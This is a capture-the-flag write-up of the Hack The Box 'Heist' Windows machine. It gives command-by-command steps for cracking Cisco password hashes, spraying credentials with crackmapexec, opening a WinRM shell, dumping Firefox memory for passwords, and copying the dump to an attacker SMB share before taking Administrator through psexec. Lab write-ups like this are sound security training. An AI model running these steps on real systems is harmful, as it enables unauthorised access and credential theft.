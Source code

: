 # Heist
A Windows box that abuses data exposure and misconfiguration to gain access, then extensive enumeration to escalate privileges.

![Heist](../Images/htb_heist_1.png)

**Tools: nmap, ciscot7, john, hashcat, crackmapexec, rpcclient, evil-winrm, Sysinternals (procdump), Impacket (lookupsid.py, smbserver.py, psexec.py).**

We begin with the nmap scan:
> nmap -sC -sV -Pn 10.10.10.149

![Heist](../Images/htb_heist_2.png)

We can see a few open ports, let's take a look at the webpage (http port 80):

![Heist](../Images/htb_heist_3.png)

There's a login page, but we don't have any credentials yet. We can try the 'Login as guest' option below the login form.

![Heist](../Images/htb_heist_4.png)

We're redirected to a 'Issues' page. We can take a look at the 'Attachment' in there, but also there are some possibly useful usernames in this page, so take note.

![Heist](../Images/htb_heist_5.png)

In the attachment we can see a bunch of Cisco ios configs. We can see that there are 3 hashes, and after doing some research, we can clearly see that these are Cisco type 5 (MD5) and type 7 (Vigenère cipher) password hashes.  
https://community.cisco.com/t5/networking-documents/understanding-the-differences-between-the-cisco-password-secret/ta-p/3163238  
https://www.infosecmatter.com/cisco-password-cracking-and-decrypting-guide/  
For the type 5 hash (the first on the list), we can use either hashcat or john, with the rockyou wordlist - you can either save it to a file like hash.txt or paste the hash between single quotes ' ':
> john --format=md5crypt --fork=4 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt  
> hashcat -m 500 '$1$pdQG$o8nrSzsGXeaduXrjlvKc91' /usr/share/wordlists/rockyou.txt

![Heist](../Images/htb_heist_6.png)

The type 7 (the other 2 hashes) can be cracked using an online tool or downloading the ciscot7 tool (both below):  
https://www.ifm.net.nz/cookbooks/passwordcracker.html  
https://github.com/theevilbit/ciscot7  

We end up with the following passwords:  
$uperP@ssword  
Q4)sJu\Y8qz\*A3?d  
stealth1agent  

Now we can try to validate the credentials with crackmapexec's smb module, because port 445 is open. First of all, save the 3 passwords in a file and in another file we can save some usernames like the ones we've seen before (hazard, admin, support, supportadmin...). We could alternatively use Metasploit's auxiliary/scanner/smb/smb_login module for this.
> crackmapexec smb 10.10.10.149 -u users.txt -p passwords.txt --shares

![Heist](../Images/htb_heist_7.png)

We are able to find a match, but we don't have valid share permissions. Next up, we can use crackmapexec once again with the winrm (Windows Remote Management) module.
> crackmapexec winrm 10.10.10.149 -u hazard -p stealth1agent

![Heist](../Images/htb_heist_8.png)

Once again, we don't have the necessary permissions. We could try using the rid-brute module to brute-force the users' SID/RID.  
https://www.itprotoday.com/security/q-what-are-exact-roles-windows-accounts-sid-and-more-specifically-its-rid-windows-security  
> crackmapexec smb 10.10.10.149 -u hazard -p stealth1agent --rid-brute

![Heist](../Images/htb_heist_9.png)

As an alternative, we could run Impacket's lookupsid.py and rpcclient to gather the SIDs: 
> lookupsid.py 'hazard:stealth1agent'@10.10.10.149  
> rpcclient -U 'hazard%stealth1agent' 10.10.10.149  
> lookupnames administrator

Now we can make a new 'users' list with the usernames 'Chase' and 'Jason', then run the smb module again.
> crackmapexec smb 10.10.10.149 -u more_users.txt -p passwords.txt --shares

![Heist](../Images/htb_heist_10.png)

We're able to find a match with the user 'Chase'. Still, this one also doesn't have access to the shares, but we can try with winrm:
> crackmapexec winrm 10.10.10.149 -u Chase -p 'Q4)sJu\Y8qz\*A3?d'

![Heist](../Images/htb_heist_11.png)

Great, we have access to winrm. To exploit that, we can use evil-winrm.
> git clone https://github.com/Hackplayers/evil-winrm.git

Inside the evil-winrm folder there's the 'Gemfile', we can read it and then run a 'gem install' to download and install all the dependencies.

![Heist](../Images/htb_heist_12.png)

Now we can run evil-winrm: 
> ruby evil-winrm.rb -i 10.10.10.149 -u Chase -p 'Q4)sJu\Y8qz\*A3?d'

![Heist](../Images/htb_heist_13.png)

Good, we have a shell. If we navigate to Chase's desktop, we can find the 'user.txt' with the user flag, and a 'todo.txt' file.

![Heist](../Images/htb_heist_14.png)

The file shows a list of 'stuff to-do', and the first one mentions 'keep checking the issues list'. If we enumerate further the machine, we can find a 'Firefox' folder, so this could mean that the user has Firefox constantly open to check for new issues. We can call the 'Get-Process' to see the running processes:

![Heist](../Images/htb_heist_15.png)

So there it is, Firefox is open indeed. We can use Microsoft sysinternals' procdump to generate a memory dump file of the process. Simply download the tool in your machine and upload the .exe to the target:  
https://docs.microsoft.com/en-us/sysinternals/downloads/procdump  

![Heist](../Images/htb_heist_16.png)

Now run procdump (in one of Chase's folders, because outside those you won't have Write permission) and provide the PID of Firefox (run 'Get-Process' again if needed), I normally select the process with the most memory in use.

![Heist](../Images/htb_heist_17.png)

Now we can either run 'download firefox.exe_blabla.dmp' (might take a long time) or use Impacket's smbserver.py to create a new share in our machine. Choose a folder to host the share (in my case /root/Downloads), then run the command, with guest user and password: 
> smbserver.py -smb2support -username guest -password guest share /root/Downloads

![Heist](../Images/htb_heist_18.png)

Now in another terminal window, back to evil-winrm, run the following, using your tun0 VPN IP: 
> net use x:\10.10.your.IP\share /user:guest guest  
> cmd /c "copy firefox.exe_blabla.dmp X:\"

![Heist](../Images/htb_heist_19.png)

Now in your machine, run a strings/grep/less command, then inside less use '/password' to highlight the words.

![Heist](../Images/htb_heist_20.png)

We can see a username 'admin@support.htb' and a password for that user (everything between the password= and the &login).

![Heist](../Images/htb_heist_21.png)

We can run crackmapexec again to check our permissions: 
> crackmapexec smb 10.10.10.149 -u administrator -p '4dD!5}x/re8]FBuZ' --shares

![Heist](../Images/htb_heist_22.png)

Sure thing. Now we can simply use Impacket's psexec.py now and login using the credentials: 
> psexec.py administrator@10.10.10.149

![Heist](../Images/htb_heist_23.png)

Then navigate to the Administrator's desktop and grab the root flag!  

**That's all for this box.**  
Thanks for reading and keep hacking!
